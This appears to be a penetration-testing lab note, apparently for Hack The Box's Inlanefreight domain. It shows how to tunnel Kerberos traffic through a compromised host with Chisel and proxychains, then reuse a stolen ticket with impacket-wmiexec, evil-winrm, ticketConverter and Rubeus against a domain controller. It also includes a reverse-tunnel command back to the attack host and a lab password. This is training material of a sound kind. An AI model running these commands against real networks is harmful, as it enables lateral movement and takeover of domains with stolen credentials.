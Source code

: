- In this scenario, our attack host doesn't have a connection to the KDC/Domain Controller, and we can't use the Domain Controller for name resolution. 
- To use Kerberos, we need to proxy our traffic via MS01 with a tool such as Chisel and Proxychains and edit the /etc/hosts file to hardcode IP addresses of the domain and the machines we want to attack.

## Start Pivopting and Tunnleing

### 1) Host File Modified
- edit the /etc/hosts file to hardcode IP addresses of the domain and the machines we want to attack.
```
cat /etc/hosts

# Host addresses

172.16.1.10 inlanefreight.htb   inlanefreight   dc01.inlanefreight.htb  dc01
172.16.1.5  ms01.inlanefreight.htb  ms01
```
### 2) Proxychains Configuration File
- We need to modify our proxychains configuration file to use socks5 and port 1080.
```
cat /etc/proxychains.conf

<SNIP>

[ProxyList]
socks5 127.0.0.1 1080
```

### 3) Download Chisel to our Attack Host

```
$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
$ gzip -d chisel_1.7.7_linux_amd64.gz
$ mv chisel_* chisel && chmod +x ./chisel
$ sudo ./chisel server --reverse 

2022/10/10 07:26:15 server: Reverse tunneling enabled
2022/10/10 07:26:15 server: Fingerprint 58EulHjQXAOsBRpxk232323sdLHd0r3r2nrdVYoYeVM=
2022/10/10 07:26:15 server: Listening on http://0.0.0.0:8080
```

### 4) Connect to MS01 with xfreerdp
```
$ xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution
```

### 5) Execute chisel from MS01
Note: The client IP is your attack host IP.
```
C:\User> c:\tools\chisel.exe client 10.10.14.33:8080 R:socks

2022/10/10 06:34:19 client: Connecting to ws://10.10.14.33:8080
2022/10/10 06:34:20 client: Connected (Latency 125.6177ms)
```

### 6) Using Linux Attack Tools with Kerberos
we need to transfer Julio's ccache file from LINUX01 and create the environment variable KRB5CCNAME with the value corresponding to the path of the ccache file.

#### **Using Impacket with proxychains and Kerberos Authentication**
Note: If you are using Impacket tools from a Linux machine connected to the domain, note that some Linux Active Directory implementations use the FILE: prefix in the KRB5CCNAME variable. If this is the case, we need to modify the variable only to include the path to the ccache file.
```
$ proxychains impacket-wmiexec dc01 -k
```


#### **Evil-Winrm**
- To use evil-winrm with Kerberos, we need to install the Kerberos package used for network authentication. 
- For some Linux like Debian-based (Parrot, Kali, etc.), it is called `krb5-user`.
- While installing, we'll get a prompt for the Kerberos realm. Use the domain name: `INLANEFREIGHT.HTB or the domain we want`, and the KDC is the `DC01 or the DC we want`.
- In case the package krb5-user is already installed:
```
$ cat /etc/krb5.conf

[libdefaults]
        default_realm = INLANEFREIGHT.HTB

<SNIP>

[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }

<SNIP>
```
**Using Evil-WinRM with Kerberos**
```
$ proxychains evil-winrm -i dc01 -r inlanefreight.htb
```

## Miscellaneous

### Impacket Ticket Converter
If we want to use a `ccache file in Windows` or a `kirbi file in a Linux machine`, we can use impacket-ticketConverter
```
$ /usr/share/doc/python3-impacket/examples/ticketConverter.py krb5cc_647401106_I8I133 julio.kirbi
```

### Importing Converted Ticket into Windows Session with Rubeus
```
C:\User> C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi
```

